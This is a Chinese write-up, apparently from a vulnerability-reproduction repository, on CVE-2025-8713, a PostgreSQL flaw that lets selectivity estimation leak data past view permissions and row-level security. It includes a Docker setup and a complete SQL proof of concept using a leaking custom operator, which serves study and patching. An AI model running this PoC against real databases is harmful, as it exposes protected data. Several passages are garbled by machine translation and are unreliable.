


# CVE-2025-8713 CWE-1230 PostgreSQL 访问控制绕过

## 漏洞背景

- **PostgreSQL：**PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- 

## 漏洞原理

PostgreSQL 在查询规划阶段为了做选择性估算，会调用绑定了统计函数的运算符过程去比较列的采样数据（MCV、直方图）；在未修复版本中，当查询经由视图或继承/分区表访问时，规划器没有在足够早的阶段检查视图 ACL 或父表的 RLS，从而允许非 leakproof 运算符在无权限场景下被执行，间接泄露底层表的真实数据样本。

## 漏洞定位


漏洞发生在查询规划阶段的选择率估算过程中，而权限检查按照历史设计被推迟到执行开始时，因此形成了一个时间窗口：

- `src/backend/optimizer/plan/planner.c::subquery_planner()`：修复前没有预先核验查询所引用视图的权限；
- `src/backend/utils/adt/selfuncs.c::examine_variable()`/`examine_simple_variable()` 和 `src/backend/statistics/extended_stats.c::statext_is_compatible_clause()`：负责处理选择率估算中的运算符、统计对象及表达式；
- 这些估计路径只确认视图所有者对基础表格的许可,而不确认当前调用者是否有权读取该视图,这可能导致调用用户定义的选择率功能,并带有副作用或可能泄露的信息。

```c
/* Vulnerable ordering (conceptual): */
plan = planner(query);          /* selectivity functions may run here */
ExecCheckPermissions(...);      /* caller's view privilege checked later */
```

将范围表转换为 `subquery_planner()`,立即拨打 `ExecCheckOneRelPerms()` (单位:千美元) `RELKIND_VIEW`;同时,重建自定义/扩展调图的能见度判断,以确保选择率估计不会跨越当前用户和视图所有者之间的访问边界。

## 漏洞修复


升级到 PostgreSQL  13.22， 14.19， 15.14， 16.10， 17.6,或后来。 提交 `22424953cded3f83f0382383773eaf36eb1abda9` 检查期间查看权限 `subquery_planner()` 在基于统计的选择性代码能够运行和收紧对观点、分区、继承子女和行安全环境的统计能见度之前。

在升级之前,不赋予不信任的用户创建运算符或选择性功能的能力,尽可能取消敏感视图的访问权限,并避免仅仅依赖行级安全来保护可能出现在优化统计中的值。 重新运行 `ANALYZE` 在升级后,如果敏感的抽样数值应当替换。

## 影响范围


** 受影响的版本:** PostgreSQL：

- 13.0 改为 13.21

- 14.0 改为 14.18

- 15.0 改为 15.13

- 16.0 改为 16.9

-17点到 17.5

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 16.0，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
CNA:PostgreSQL    Base Score:3.1 LOW    Vector:CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:16.0:*:*:*:*:*:*:*
```



## 漏洞复现

使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test 并运行 PoC 文件。

在 Step 6 尝试直接访问表显示没有权限，在 Step 7 中通过对视图做 EXPLAN 可以看到先返回了表的 MCV，之后才报错。

```bash
docker exec -it postgres-16.0 psql -U postgres -d test -f CVE-2025-8713-PoC.sql
```




## PoC分析


```sql
-- 1) Basic tables and data
CREATE TABLE priv_test_tbl(a int, b int);
INSERT INTO priv_test_tbl
SELECT mod(i,5), mod(i,10) FROM generate_series(1,100) s(i);
ANALYZE priv_test_tbl;

-- 2) Non-leakproof operator <<< (int, int) + optional estimation function
CREATE OR REPLACE FUNCTION int_leak(a int, b int)
RETURNS boolean
LANGUAGE plpgsql
AS $$
BEGIN
  RAISE NOTICE 'int_leak(%,%)', a, b;  -- Used only to observe whether the execution phase is called
  RETURN a < b;
END$$;

DROP OPERATOR IF EXISTS <<< (int, int);
CREATE OPERATOR <<< (
  PROCEDURE = int_leak,
  LEFTARG   = int,
  RIGHTARG  = int,
  RESTRICT  = scalarltsel,
  JOIN      = scalarltjoinsel
);

-- 3) Enable RLS and allow only a < 0 (nearly all rows in this table have a >= 0)
ALTER TABLE priv_test_tbl ENABLE ROW LEVEL SECURITY;
DROP POLICY IF EXISTS p_allow_neg ON priv_test_tbl;
CREATE POLICY p_allow_neg ON priv_test_tbl USING (a < 0);

-- 4) Low-privilege users, granting view permissions
CREATE ROLE regress_rls_alice LOGIN;
CREATE OR REPLACE VIEW priv_test_view AS SELECT * FROM priv_test_tbl;

-- 5) Compare two access methods as alice
SET SESSION AUTHORIZATION regress_rls_alice;

\echo '--- Direct table access (expect: permission denied)'
SELECT count(*) FROM priv_test_tbl WHERE a <<< 1000;

\echo '--- EXPLAIN on view (vulnerable: shows a plan; fixed: errors at planning)'
EXPLAIN SELECT count(*) FROM priv_test_view WHERE a <<< 1000;
```

## 参考链接


[NVD - CVE-2025-8713](https://nvd.nist.gov/vuln/detail/CVE-2025-8713)

[Fix security checks in selectivity estimation functions. · postgres/postgres@2242495](https://github.com/postgres/postgres/commit/22424953cded3f83f0382383773eaf36eb1abda9#diff-7548adcbaf4316229f591bae551542cf30cdab923ffa2de20ce23ef9bf787252)
